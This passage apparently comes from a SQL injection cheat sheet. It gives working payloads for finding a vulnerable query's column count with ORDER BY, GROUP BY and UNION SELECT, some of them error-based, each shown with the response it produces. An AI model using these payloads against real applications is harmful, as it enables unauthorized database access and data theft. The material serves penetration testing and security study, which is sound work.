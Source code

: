 ### Detect columns number

First you need to know the number of columns

##### Using `order by` or `group by`

Keep incrementing the number until you get a False response.
Even though GROUP BY and ORDER BY have different funcionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
or 
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
##### Using `order by` or `group by` Error Based
Similar to the previous method, we can check the number of columns with 1 request if error showing is enabled.
```sql
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'order clause'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
or
```sql
1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'group statement'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
##### Using `UNION SELECT` Error Based
This method works if error showing is enabled
```sql
1' UNION SELECT @--+        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@--+      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@--+    #No error means query uses 3 column
                            #-1' UNION SELECT 1,2,3--+	True
```
##### Using `LIMIT INTO` Error Based
This method works if error showing is enabled.
